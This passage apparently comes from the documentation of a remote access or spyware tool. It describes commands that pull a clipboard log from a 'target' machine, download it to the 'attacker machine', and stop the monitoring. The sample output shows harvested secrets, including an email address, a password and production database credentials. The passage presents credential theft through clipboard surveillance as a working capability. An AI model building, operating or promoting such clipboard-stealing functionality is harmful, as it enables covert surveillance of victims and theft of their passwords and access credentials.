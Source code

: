 ##### View and Download Captured Clipboard Data

```
clipboard_dump
```

**What happens:**

1. Retrieves the current clipboard log file from target
2. Automatically downloads to attacker machine
3. Saves as `clipboard_dump_YYYYMMDD_HHMMSS.txt` with timestamp
4. Displays the content in the terminal

**Output example:**

```
Clipboard log file ready: logs/clipboard/clipboard_20251004_150230.txt
[*] Downloading clipboard log file...
[+] Clipboard log file downloaded: logs/clipboard/clipboard_dump_20251004_150530.txt

=== Clipboard Log Content ===
============================================================
Timestamp: 2024-10-04 15:03:45
Length: 42 characters
------------------------------------------------------------
admin@company.com
============================================================

============================================================
Timestamp: 2024-10-04 15:04:12
Length: 23 characters
------------------------------------------------------------
MySecretPassword123!
============================================================

============================================================
Timestamp: 2024-10-04 15:05:30
Length: 256 characters
------------------------------------------------------------
Server: production-db.company.local
Username: db_admin
Password: Str0ngP@ssw0rd2024
Port: 5432
Database: production_data
============================================================
=== End of Clipboard Log ===
```

##### Stop Clipboard Monitoring

```
clipboard_stop
```

Response: `[+] Clipboard monitoring stopped`
